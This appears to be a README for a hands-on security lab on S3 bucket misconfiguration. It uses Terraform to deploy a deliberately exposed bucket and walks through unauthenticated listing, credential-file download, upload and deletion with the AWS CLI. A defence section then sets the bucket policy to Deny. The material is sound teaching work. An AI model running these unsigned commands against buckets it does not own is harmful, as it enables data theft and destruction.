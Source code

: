 # S3 Misconfiguration

## Follow the below instructions given to solve this Lab

### please install the below cli tools 


* AWS CLI

```bash
sudo apt-get install awscli
```
* Terraform - click on the below link for further help on on installing 

```bash
https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli
```

* Step 1 Clone the repository 

```bash
git clone https://github.com/bvabhishek/s3misconfiguration.git
```
* Step 2: Change Directory

```bash
cd /s3misconfiguration
```
* Step 3: Initialise terraform 

```bash
terraform init
```

* Step 4: Run `terraform apply -auto-approve`

```bash
terraform apply -auto-approve
```

* Step 5: Export bucket name
```bash
export s3bucket=<bucketname> 
```

* Step 6: Lets try to list down the contents of bucket

```bash
aws s3 ls s3://$s3bucket
```

* Step 7: Now lets perform all the possible attack scenario 

* Step 8: Lets first download the fishy files - change to your current working directory

```bash
aws s3 cp s3://$s3bucket/creds.txt /home/abhi/seasides/

```
* To download all the files from the bucket use sync command

```bash
aws s3 sync s3://$s3bucket /home/abhi/seasides/test/
```

* Step 9: Let's upload a new file 

```bash
aws s3 cp seasides.jpeg s3://$s3bucket --no-sign-request --region us-west-2
```

* Step 10: Let's Delete a file 


```bash
aws s3 rm s3://$s3bucket/emp_pay_dont_delete.csv --no-sign-request --region us-west-2
```


* By this we know that the attacker has performed all the malicious functionalities ie, CRUD operations which leads to Vulnerabilities such as 
* Broken Authentication
* Sensitive Information Disclosure 

# Defence 

Using Client Side Encryption 





Step 1 : Ensure maximum protection is being given to the bucket and its object. You can change the Bucket policy
In line no 22 , 29 & 36 change the Effect to "Deny" which should look like 

```bash
resource "aws_s3_bucket_policy" "lab1_policy" {
  bucket = aws_s3_bucket.lab1.id

  policy = <<EOF
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PublicAccess",
      "Effect": "Deny",
      "Principal": "*",
      "Action": "s3:*",
      "Resource": "${aws_s3_bucket.lab1.arn}/*"
    },
    {
      "Sid": "PublicWrite-PutObject",
      "Effect": "Deny",
      "Principal": "*",
      "Action": "s3:PutObject",
      "Resource": "${aws_s3_bucket.lab1.arn}/*"
    },
    {
      "Sid": "AllowListObjects",
      "Effect": "Deny",
      "Principal": "*",
      "Action": "s3:ListBucket",
      "Resource": "${aws_s3_bucket.lab1.arn}"
    }
  ]

}
EOF
}
```

 
